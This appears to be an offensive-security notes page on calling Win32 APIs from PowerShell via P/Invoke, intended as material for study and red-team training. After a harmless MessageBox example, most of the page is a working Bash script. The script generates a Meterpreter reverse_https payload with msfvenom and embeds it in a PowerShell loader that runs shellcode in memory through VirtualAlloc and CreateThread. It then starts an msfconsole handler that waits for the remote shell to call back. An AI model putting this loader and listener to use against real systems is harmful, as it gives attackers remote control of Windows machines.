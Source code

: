 ```yaml
---
title: Executing Win32 APIs in PowerShell
tags:
  - breach
  - operations
  - win32api
  - api
  - powershell
  - execution
  - shellcode
---
```


We can't execute **Win32API** methods directly from PowerShell. What are
**Win32API** methods? We discuss them in
[[phishing-in-microsoft-office#Calling Win32API|Phishing in Microsoft Office - Calling Win32API]].
These are methods usually implemented in `.dll`s like `kernel32.dll` that you
can usually find in `C:\Windows\System32`.

We can, however, compile and execute C# (CSharp) from PowerShell, and invoke
these methods using the .NET Framework. Using
[Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke),
we can directly reference **Win32API** methods implemented in our target
`.dll`s.

For effective translation of C# types to C/C++ types for parameters defined in
these **Win32API** methods, we can reference helpful documentation provided at
[pinvoke.net](https://www.pinvoke.net/). The following PowerShell script
demonstrates how to invoke **user32.MessageBox** from `user32.dll` using
**P/Invoke** and **C#**:

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### Executing shellcode in PowerShell

The following example uses the interoperability features described above to
define references to the `VirtualAlloc` and `CreateThread` methods from
`kernel32.dll` . This **Bash** script will generate a **Meterpreter**
`windows/x64/meterpreter/reverse_https` payload directed to callback to a
provided `LHOST` and `LPORT`for the next stage of the **Meterpreter** payload.

The PowerShell shellcode buffer for the **Meterpreter** payload will be placed
into a **PowerShell** script that will call `VirtualAlloc` to allocate an `RWX`
memory segment within the current process. The script will proceed to call
`System.Runtime.InteropServices.Marshal` to copy the shellcode from managed
memory to unmanaged memory - copying our shellcode to the newly created buffer
from the previous `VirtualAlloc` call. Finally, we call `CreateThread` providing
an address to our shellcode payload memory segment to gain shellcode execution.

After generating our PowerShell payload, we kick off an `msfconsole` session to
listen for our **Meterpreter** payload callback:

```bash
#!/bin/bash

set -ex -o pipefail

MSFPAYLOAD="windows/x64/meterpreter/reverse_https"
MSFCONSOLE=$(which msfconsole)
MSFVENOM=$(which msfvenom)


msfvenom() {
    PAYLOAD=$($MSFVENOM \
        -p $MSFPAYLOAD \
        LHOST=$LHOST \
        LPORT=$LPORT \
        EXITFUNC=thread \
        -f ps1 2>/dev/null)
}


generate_powershell() {
    tee payload.ps1 << EOF
\$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type \$Kernel32

$PAYLOAD

\$size = \$buf.Length

[IntPtr]\$addr = [Kernel32]::VirtualAlloc(0, \$size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy(\$buf, 0, \$addr, \$size)

\$thandle=[Kernel32]::CreateThread(0, 0, \$addr, 0, 0, 0)

[Kernel32]::WaitForSingleObject(\$thandle, [uint32]"0xFFFFFFFF")
EOF
}

listen() {
    $MSFCONSOLE \
        -q \
        -x "use multi/handler; \
            set payload $MSFPAYLOAD; \
            set LHOST $LHOST; \
            set LPORT $LPORT; \
            exploit"
}


LHOST=$1
LPORT=$2

msfvenom
generate_powershell
listen
```
